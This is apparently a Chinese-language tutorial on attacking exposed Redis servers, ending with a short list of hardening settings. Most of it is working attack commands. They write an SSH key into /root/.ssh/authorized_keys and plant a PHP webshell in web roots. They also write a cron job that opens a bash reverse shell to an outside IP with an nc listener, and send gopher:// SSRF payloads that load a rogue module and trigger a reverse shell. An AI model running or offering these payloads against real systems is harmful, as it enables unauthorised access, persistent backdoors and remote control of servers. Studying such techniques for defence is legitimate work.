








Redis安全攻防
Redis漏洞复现
一、redis基本命令
连接redis：redis-cli -h 192.168.63.130
查看redis版本信息、一些具体信息、服务器版本信息等等：192.168.63.130:6379>info
将变量x的值设为test：192.168.63.130:6379>set x "test"
获取设置的某个变量的值：192.168.63.130:6379>get x
`flushall`是把整个redis数据库删除，一般情况下不要用！！！192.168.63.130:6379>flushall
查看所有键：192.168.63.130:6379>KEYS *
获取默认的redis目录、和rdb文件名：可以在修改前先获取，然后走的时候再恢复。
192.168.63.130:6379>CONFIG GET dir
192.168.63.130:6379>CONFIG GET dbfilename
二、redis写入公钥拿shell
1.生成密钥公钥
ssh-keygen -t rsa

2.防止乱码 导出key(在/root/.ssh下执行)
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
查看密钥 ： cat key.txt
查看密钥并且设置：cat key.txt | redis-cli -h 192.168.0.108 --pass pass123 -x set xxx

redis-cli -h 192.168.1.102
192.168.1.102:6379> config set dir /root/.ssh
192.168.1.102:6379> config set dbfilename authorized_keys
192.168.1.102:6379> save
192.168.1.102:6379> exit

三、redis写webshell（拿下webshell）
知道网站根路径，或者能猜测
/var/www/wordpress
/var/www/html/randomapi
config set dir /var/www/wordpress
config set dbfilename shell.php
set x "<?php phpinfo();?>"
save

访问

四、利用计划任务反弹shell（nc反弹shell）
1.写入语句到变量x
echo -e "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/172.16.16.126/7799 0>&1\n\n"|redis-cli -h 192.168.1.102 -x set 1
2.#设置Redis的备份路径
redis-cli -h 192.168.1.102 config set dir /var/spool/cron/
3.#设置备份文件和文件名
redis-cli -h 192.168.1.102 config set dbfilename root
redis-cli -h 192.168.1.102 save

Kali监听
nc -lvnp 7799
五、ssrf redis 反弹shell
gopher://0.0.0.0:6379/_auth%2520welcometowangdingbeissrfme6379%250d%250aconfig%2520set%2520dir%2520/tmp/%250d%250aquit
gopher://0.0.0.0:6379/_auth%2520welcometowangdingbeissrfme6379%250d%250aconfig%2520set%2520dbfilename%2520exp.so%250d%250aslaveof%2520192.168.0.119%252021000%250d%250aquit
导入模块
gopher://0.0.0.0:6379/_auth%2520welcometowangdingbeissrfme6379%250d%250amodule%2520load%2520./exp.so%250d%250aquit
关闭主从
gopher://0.0.0.0:6379/_auth%2520welcometowangdingbeissrfme6379%250d%250aslaveof%2520NO%2520ONE%250d%250aquit
设置数据库名
gopher://0.0.0.0:6379/_auth%2520welcometowangdingbeissrfme6379%250d%250aconfig%2520set%2520dbfilename%2520dump.rdb%250d%250aquit
反弹shell
gopher://0.0.0.0:6379/_auth%2520welcometowangdingbeissrfme6379%250d%250asystem.rev%2520192.168.0.119%25206666%250d%250aquit
六、redis安全设置
1、单独为redis设置一个普通账号 启动redis
2、设置本地 localhost 不允许外部访问
3、保护模式开启 protected-mode 开启 （默认开启）
4、把端口最好更改
5、requirepass 设置redis密码